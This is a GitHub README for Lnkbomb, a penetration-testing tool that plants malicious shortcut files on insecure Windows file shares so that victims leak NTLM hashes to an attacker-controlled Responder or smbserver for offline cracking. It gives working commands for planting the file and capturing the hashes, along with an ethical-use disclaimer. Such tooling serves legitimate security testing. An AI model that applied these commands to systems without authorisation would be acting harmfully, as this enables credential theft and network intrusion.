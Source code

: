 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

## Python Usage
Installing Lnkbomb

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)```

```-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)```

Examples of full commands include:

```python3 lnkbomb.py -t \\192.168.1.1\Share -a 192.168.1.2```

```python3 lnkbomb.py -r randomfilegenerated.recover```

You will need to utilize a tool like Responder or smbserver to capture the NTLM hash.  
```responder -I eth0 -dwf -v```
or
```smbserver.py . . -smb2support```


<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example2.png" />
</p>

## Executable Usage
Download Lnkbomb from the releases link on the right side of the page.  All flags are the same as the Python version, with the exception of using lnkbomb.exe rather than python3 lnkbomb.py.


### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  
